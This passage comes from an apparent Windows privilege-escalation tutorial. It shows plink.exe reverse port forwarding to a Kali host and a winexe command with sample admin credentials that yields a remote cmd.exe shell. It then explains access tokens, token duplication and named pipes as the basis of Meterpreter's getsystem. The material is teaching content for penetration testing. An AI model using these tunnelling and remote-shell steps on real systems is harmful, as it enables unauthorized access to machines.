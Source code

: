 3. Confirm that the winexe command now fails.
4. Copy the plink.exe file across to Windows, and then kill the SMB Server on Kali (if you are using it).
5. Make sure that the SSH server on Kali is running and accepting root logins. Check that the “PermitRootLogin yes” option is uncommented in /etc/ssh/sshd\_config. Restart the SSH service if necessary.
6. On Windows, use plink.exe to forward port 445 on Kali to the Windows port 445:

```
> plink.exe root@192.168.1.11 -R 445:127.0.0.1:445
```

7. On Kali, modify the winexe command to point to localhost (or 127.0.0.1) instead, and execute it to get a shell via the port forward:

```
# winexe -U 'admin%password123' //localhost cmd.exe
```

## <mark style="color:red;">getsystem (Named Pipes & Token Duplication)</mark>

### <mark style="color:blue;">Access Tokens</mark>

Access Tokens are special objects in Windows which store a user’s identity and privileges. Primary Access Token – Created when the user logs in, bound to the current user session. When a user starts a new process, their primary access token is copied and attached to the new process. Impersonation Access Token – Created when a process or thread needs to temporarily run with the security context of another user.

### <mark style="color:blue;">Token Duplication</mark>

Windows allows processes/threads to duplicate their access tokens. An impersonation access token can be duplicated into a primary access token this way. If we can inject into a process, we can use this functionality to duplicate the access token of the process, and spawn a separate process with the same privileges.

### <mark style="color:blue;">Named Pipes</mark>

You may be already familiar with the concept of a “pipe” in Windows & Linux:

```
> systeminfo | findstr Windows
```

A named pipe is an extension of this concept. A process can create a named pipe, and other processes can open the named pipe to read or write data from/to it. The process which created the named pipe can impersonate the security context of a process which connects to the named pipe.

### <mark style="color:blue;">getsystem</mark>

The “getsystem” command in Metasploit’s Meterpreter shell has an almost mythical status. By running this simple command, our privileges are almost magically elevated to that of the SYSTEM user. What does it actually do?
